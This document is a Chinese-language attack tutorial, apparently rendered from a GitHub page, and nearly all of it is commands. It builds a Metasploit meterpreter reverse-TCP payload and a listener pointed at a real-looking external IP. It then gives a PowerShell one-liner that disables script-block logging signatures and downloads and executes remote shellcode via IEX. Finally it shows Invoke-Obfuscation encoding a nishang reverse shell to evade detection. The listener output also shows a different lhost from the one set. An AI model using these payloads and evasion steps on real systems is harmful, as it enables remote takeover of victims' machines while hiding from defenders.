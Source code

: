 ```bash
msfvenom -a x64 -plateform windows -p windows/x64/meterpreter/reverse_tcp lhost=118.25.69.199 lport=4444 -f psh -o shellcode.txt 
```

**2.msfconsole开始监听**

```bash
msf > use exploit/multi/handler
msf exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf exploit(multi/handler) > set lhost 118.25.69.199
lhost => 192.168.211.179
msf exploit(multi/handler) > set lport 4444
lport => 4444
msf exploit(multi/handler) > run
```

**3.在目标机器执行powershell**

```powershell
[ScriptBlock]."Get`Fiel`d"('signatures','N'+'onPublic,Static').SetValue($NULL,(New-Object Collections.Generic.HashSet[string]));
     $e=new-object net.webclient;
     $e.proxy=[Net.WebRequest]::GetSystemWebProxy();
     $e.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;
     IEX $e.downloadstring('http://118.25.69.199/shellcode/9988.txt')
```

**4.拿到shell**

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3kzc2zdyj20zw082wh5.jpg)

## 二、Invoke-Obfuscation.psd1

![](https://ws1.sinaimg.cn/large/b6de3d7dly1fzgeno8savj20kq0370tf.jpg)

```powershell
Import-Module ./Invoke-Obfuscation.psd1
Invoke-Obfuscation
```

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l0gc3gwj20hs0c63yr.jpg)

```powershell
Invoke-Obfuscation> set ScriptBlock ls Invoke-Obfuscation> ENCODING

Invoke-Obfuscation\Encoding> 2
```

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fz3l0zh7chj20ig0dnmxf.jpg)

生成混淆payload：

```powershell
Invoke-Obfuscation> set ScriptBlock . F:\Privilege\nishang-master\Shells\Invoke-PowerShellTcp.ps1; Invoke-PowerShellTcp -Reverse -IPAddres 192.168.211.179 -Port 4444
Invoke-Obfuscation> encoding

Invoke-Obfuscation\Encoding> 2
```
